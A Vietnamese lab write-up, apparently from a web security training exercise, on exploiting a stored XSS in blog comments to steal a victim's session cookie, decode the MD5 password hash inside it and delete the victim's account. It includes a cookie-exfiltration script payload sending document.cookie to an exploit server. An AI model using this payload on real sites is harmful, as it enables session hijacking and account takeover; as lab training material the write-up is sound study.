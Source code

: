 # Lab: Offline password cracking

# 1. Vulnerable

Ở bài lab này, ta được cung cấp account cá nhân cũng như `victim's username`

Ở đây không được cung cấp list password như các lab khác nhưng lại xuất hiện lỗ hổng `XSS`

Lợi dụng `XSS` để chiếm cookie của `victim` để đăng nhập

# 2. Exploit

Ở phần post comment có `stored XSS` 

![vuln0.png](images/vuln0.png)

Ở đây ta sẽ có 1 trang exploit

![vuln1.png](images/vuln1.png)

Trang web này có ghi lại các lần truy cập vào file log mà ta có thể đọc được

![vuln2.png](images/vuln2.png)

Ta sẽ có kịch bản khai thác như sau:

Lợi dụng `stored XSS` khiến victim bị chuyển truy cập vào link `exploit + cookie` và từ đó đăng nhập vào `victim's account`

Payload:

```
<script> document.location='exploit-url/' + document.cookie </script>
```

Sau khi `victim` đã bị XSS thì ta sẽ check file log và nhận được `cookie` 

![vuln3.png](images/vuln3.png)

Sau khi đã lấy được `cookie` và đăng nhập vào `victim's account` thì ta sẽ giải mã `cookie` như sau:

```
base64-decode(carlos:md5(password)) (do đoạn hash có độ dài 32 ký tự là mặc định của hash md5)
```

![vuln4.png](images/vuln4.png)

Ok decode đoạn hash của phần password và ta được

![vuln5.png](images/vuln5.png)

Việc còn lại là xóa `victim's account` bằng mật khẩu đã decode được

![solved.png](images/solved.png)
